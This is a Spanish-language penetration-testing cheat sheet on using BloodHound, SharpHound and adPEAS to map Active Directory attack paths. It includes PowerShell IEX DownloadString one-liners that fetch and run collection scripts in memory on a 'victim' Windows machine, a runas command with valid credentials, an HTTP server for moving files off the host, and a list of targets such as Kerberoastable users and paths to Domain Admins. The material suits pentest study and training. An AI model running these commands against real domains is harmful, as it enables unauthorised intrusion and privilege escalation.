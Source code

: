 # Bloodhound 

Tags: #AD #BloodHound #SharpHound #Kali #Parrot 

**BloodHound** es una herramienta especializada en analizar y mapear relaciones dentro de Active Directory (AD). Su capacidad para identificar rutas de ataque y relaciones complejas la ha convertido en una herramienta esencial tanto para pentesters como para atacantes. A través de la recopilación y visualización de datos, permite descubrir configuraciones inseguras, privilegios excesivos y posibles vectores de escalación de privilegios o movimiento lateral en entornos AD, lo que la hace invaluable en auditorías de seguridad y pruebas de penetración.

```bash 
1. Visualización de Relaciones: BloodHound utiliza gráficos para mostrar las relaciones entre usuarios, grupos, computadoras y otros componentes en un AD. Estas visualizaciones hacen que sea más fácil para un atacante o pentester entender rápidamente las relaciones complejas y encontrar potenciales caminos de ataque.
    
2. Identificación de Caminos de Ataque: Uno de los principales valores de BloodHound es su capacidad para identificar caminos de escalada de privilegios y movimiento lateral. Al alimentar a BloodHound con datos recopilados, la herramienta puede identificar caminos específicos que un atacante puede seguir para escalar privilegios o moverse lateralmente a través de una red.
    
3. Automatización: La recopilación manual de detalles sobre las relaciones AD puede ser extremadamente lenta y tediosa. BloodHound, junto con su componente de recopilación de datos llamado SharpHound, automatiza gran parte de este proceso, permitiendo a los pentesters recopilar y analizar datos rápidamente.
    
4. Identificación de Vulnerabilidades Comunes: BloodHound también puede identificar patrones comunes que a menudo son vulnerables a la explotación, como configuraciones de delegación inseguras, miembros excesivamente permisivos en grupos de alto privilegio, y usuarios que tienen derechos de sesión local en sistemas críticos.
    
5. Capacidades de Análisis Avanzado: Aparte de identificar caminos obvios, BloodHound puede ayudar a identificar relaciones no evidentes que podrían ser explotadas. Por ejemplo, un usuario podría no tener privilegios directos sobre un recurso, pero a través de una serie de relaciones y delegaciones, podría tener una ruta de acceso indirecto.
    
6. Capacitación y Conciencia: Para defensores y equipos de seguridad, BloodHound también puede ser una herramienta valiosa. Al visualizar la estructura de permisos y las relaciones dentro de AD, los defensores pueden anticiparse a potenciales vías de ataque y tomar medidas para mitigar los riesgos.
```

## Grupos predeterminados de Active Directory:

```bash 
1. 'Domain Admins': Este grupo tiene control total sobre todos los dominios en el bosque. Cualquier usuario que sea miembro de este grupo puede realizar cualquier cambio en el dominio, como crear o eliminar otros usuarios, grupos y modificar políticas de seguridad.
2. 'Enterprise Admins': Los miembros de este grupo tienen permisos para realizar cambios a nivel de toda la empresa, incluidos todos los dominios y bosques.
3. 'Schema Admins': Los usuarios en este grupo pueden hacer cambios en el esquema de AD, que es la definición de objetos y atributos que pueden ser creados y almacenados en AD.
4. 'Account Operators': Pueden administrar las cuentas de usuario y grupos dentro de un dominio, pero no pueden modificar los miembros de los grupos de administradores ni cambiar la configuración de los servidores de dominio. Por lo que puedes crear, modificar cuentas de usuario.
5. 'Exchange Windows Permissions': Puede otorgar los permisos necesarios para que Exchange pueda interactuar con objetos de Active Directory, como usuarios, buzones y grupos. Los miembros de este grupo tienen permisos especiales en contenedores específicos de AD para realizar tareas como crear, modificar y administrar objetos relacionados con Exchange. 
6. 'Backup Operators': Pueden realizar copias de seguridad y restaurar archivos en un servidor, independientemente de los permisos de acceso a esos archivos.
7. 'Server Operators': Pueden realizar tareas de mantenimiento en servidores de dominio.
8. 'Guests': Es un grupo que por defecto tiene privilegios mínimos, y generalmente se utiliza para proporcionar acceso temporal o limitado a la red.
9. 'DNS Admins': Es un grupo especial que tiene privilegios administrativos sobre el servicio DNS del dominio.
10. 'Domain Users': Este grupo incluye todas las cuentas de usuario en un dominio. A menudo se verifica para identificar posibles cuentas huérfanas o no utilizadas.
11. 'Domain Computers': Este grupo incluye todas las estaciones de trabajo y servidores unidos al dominio.
12. 'Domain Controllers': Este grupo incluye todos los controladores de dominio en un dominio. Es esencial garantizar que sólo las máquinas confiables sean parte de este grupo.
13. 'Read-Only Domain Controllers - RODC': Si la organización utiliza RODCs, es esencial garantizar que estén configurados correctamente.
```

## Tipos de ActiveDirectoryRights

```bash 
Los 'ActiveDirectoryRights' incluyen, pero no se limitan a:

1. Read/Write: Leer y escribir información en objetos de AD.
2. Delete: Derechos para eliminar objetos.
3. CreateChild/DeleteChild: Crear o eliminar objetos hijos en un contenedor.
4. Self: Derechos para modificar información propia.
5. GenericAll: Control total sobre el objeto, incluyendo todos los derechos anteriores.
6. WriteDacl: Modificar la lista de control de acceso discrecional (DACL).  
7. WriteOwner: Cambiar el propietario de un objeto.
```

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1'); 
❯ Invoke-BloodHound -CollectionMethod All     


Notas: 
	1. Estos comandos los ejecutamos en la maquina victima Windows para recolectar la información y obtener un archivo '.zip' el cual pasaremos a la herramienta de 'BloodHound' para el analisis 
```

## ADPeas 

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Nota: Podemos usar ADPeas para hacer la recolección ya que automaticamente ejecuta 'SharpHound'
```

## SharpHound con credenciales Validas desde un CMD en Windows 

```bash 
# Autenticarse en un 'CMD' en Windows con credenciales validas
❯ runas /netonly /user:domain1.com\username cmd    # Autenticarse con credenciales validas a nivel de red en una CMD en Windows> Este comando abrirá una nueva CMD con las credenciales 

❯ dir \\IP\DIR           # Enumerar el directorio con el usuario autenticado desde una CMD en Windows 

❯ .\SharpHound.exe -c all -d domain1.com --domaincontroller IP   # Enumeración con SharpHound a un dominio con credenciales validas desde una CMD en Windows.
Nota: La herramienta regresará un archivo '.zip' que se debe cargar en 'BloodHound' para analizar

❯ python3 -m http.server 80     # Crear un recurso compartido a nivel de red para pasar archivos 
```

## BloodHound 

* [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy/releases)
* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries)
* [Neo4j-installation](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/)

```bash 
❯ sudo neo4j console &> /dev/null & disown      # Iniciamos el servicio en el puerto local '7474' y lo independizamos

❯ ./BloodHound --no-sandbox & disown            # Ejecutar como usuario 'root' 
❯ bloodhound &> /dev/null & disown              # Ejecutar 'Bloodhound' e independizarlo

Notas: 
	1. Si es la primera vez que se usa, abrir la web 'localhost:7474', agregar las credenciales 'neo4j:neo4j', despues, colocar una nueva passwd y conectarse al 'Bloodhound'
	2. El 'CustomQueries.json' se descarga y se copia en la carpeta donde esta instalado 'BloodHound'
```

```bash 
Identificar lo siguiente en BloodHound:
	1. Identificación de 'Doman Admins'
	2. Identificación de 'usuarios Kerberoasteables'
	3. Identificación de 'usuarios AS-REP Roastable'
	4. Identificación de vectores de ataque 'Find Shortest Paths to Domain Admins'
	5. Identificación de 'Unsconstrained Delegation'
	6. Identificación de usuarios con permisos sobre GPO 'Find if any domain user has interesting against aGPO'
	7. 
```

